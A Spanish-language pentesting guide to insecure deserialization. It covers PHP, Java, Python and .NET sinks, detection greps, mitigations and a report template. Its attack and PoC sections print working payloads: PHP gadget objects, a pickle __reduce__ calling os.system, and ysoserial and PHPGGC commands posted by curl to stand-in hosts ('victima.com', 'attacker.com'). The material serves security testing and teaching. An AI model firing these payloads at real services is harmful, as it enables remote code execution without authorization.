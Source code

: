 # Deserialización Insegura 

## Resumen

La deserialización insegura ocurre cuando una aplicación deserializa datos de usuarios sin validación, permitiendo a un atacante enviar objetos (o cargas) que, al deserializarse, ejecutan código arbitrario, modifican el flujo de la aplicación o desencadenan ataques de lógica. Afecta principalmente a formatos binarios o de texto con capacidad de invocar constructores o métodos, como Java Serialization, PHP unserialize, Python pickle, .NET BinaryFormatter, Ruby Marshal.

## Contexto

Las aplicaciones distribuidas usan deserialización para comunicar objetos entre servicios (RPC, colas de mensajes, sesiones, caché distribuida). Motores comunes:

- **Java:** `java.io.ObjectInputStream`
- **PHP:** `unserialize()`
- **Python:** `pickle.loads`
- **.NET:** `BinaryFormatter.Deserialize`
- **Ruby:** `Marshal.load`

Las `gadget chains` en bibliotecas permiten ejecutar código al deserializar.

## Metodología de Ataque

### 1. Identificación de Puntos de Deserialización

- Analizar endpoints que reciban datos serializados: parámetros POST BINARIOS, cookies de sesión, tokens JWT personalizados, colas (RabbitMQ, Kafka), cachés (Memcached).
- Buscar funciones `unserialize`, `pickle.loads`, `BinaryFormatter.Deserialize`.

### 2. Pruebas Manuales

#### 2.1 PHP `unserialize`

```php
$data = $_POST['data'];
$obj = unserialize($data);
```

- Probar payloads de gadget:

```php
O:8:"EvilClass":1:{s:4:"cmd";s:2:"id";}
```

- Reconocer clases disponibles con métodos mágicos (`__wakeup`, `__destruct`).

#### 2.2 Java Serialization

- Enviar `java.io.Serializable` payload generado con ysoserial:

```bash
ysoserial CommonsCollections5 'touch /tmp/pwned' | base64
```

- Endpoint decodifica base64 y deserializa: ejecuta comando.

#### 2.3 Python Pickle

```python
import pickle
class Evil(object):
    def __reduce__(self):
        return (os.system, ('id > /tmp/pwned',))
payload = pickle.dumps(Evil())
```

### 3. Generación de Payloads Automatizada

- **PHPGGC** para cadenas de gadgets en PHP
- **ysoserial** para Java
- **marshalsec** para .NET
- Scripts Python para pickle

## PoC

### PHP Example

```php
<?php
class Evil {
  public $cmd;
  function __destruct(){
    system($this->cmd);
  }
}
$evil = new Evil();
$evil->cmd = 'id > /tmp/p';
echo urlencode(serialize($evil));
?>
```

Enviar `data` POST con este valor, verificar `/tmp/p` creado.

### Java Example

```bash
payload=$(java -jar ysoserial.jar CommonsCollections5 'touch /tmp/pwned')
curl -X POST https://victima.com/deserialize \
  -H "Content-Type: application/x-java-serialized-object" \
  --data-binary "$payload"
```

## Automatización

### PHPGGC

```bash
phpggc monolog/RCE1 system 'id' --phar > exploit.phar
curl -F "file=@exploit.phar" https://victima.com/upload
```

### ysoserial CLI

```bash
java -jar ysoserial.jar URLDNS attacker.com | curl -X POST https://victima.com/deserialize --data-binary @-
```

## Explotación / Impacto

- **RCE completo** con privilegios de aplicación.
- **Desbordamiento de flujo**: bypass autenticación, escalada de privilegios.
- **Exfiltración de datos**: lectura de archivos, bases de datos.
- **Pivot interno**: acceso a redes privadas desde servidor.

## Detección

```bash
grep -R "unserialize" .  
grep -R "ObjectInputStream" .  
grep -R "pickle.loads" .
```

Monitor de logs: excepciones de deserialización, stack traces.

## Mitigaciones

1. **Evitar deserialización de datos no confiables.**
2. **Usar formatos seguros:** JSON, XML (con validación de esquema).
3. **Firmar y verificar integridad:** HMAC en datos serializados antes de deserializar.
4. **Lista blanca de clases permitidas:** limitar clases deserializables (`allow-list`).
5. **Isolación de procesos:** deserializar en contenedores o sandboxes.

## Reporte

**Título:** Deserialización Insegura – Ejecución Arbitraria de Código
**Resumen Ejecutivo:** El endpoint `/deserialize` decodifica y deserializa objetos de usuarios sin verificación, permitiendo RCE.
**Pasos de Reproducción:**

1. Generar payload con ysoserial CommonsCollections5.
2. Enviar POST a `/deserialize` con payload binario.
3. Verificar ejecución de comando (`touch /tmp/pwned`).
   **Mitigación Recomendada:** Deshabilitar deserialización directa, usar JSON con validación, firmar datos e implementar whitelist de clases.
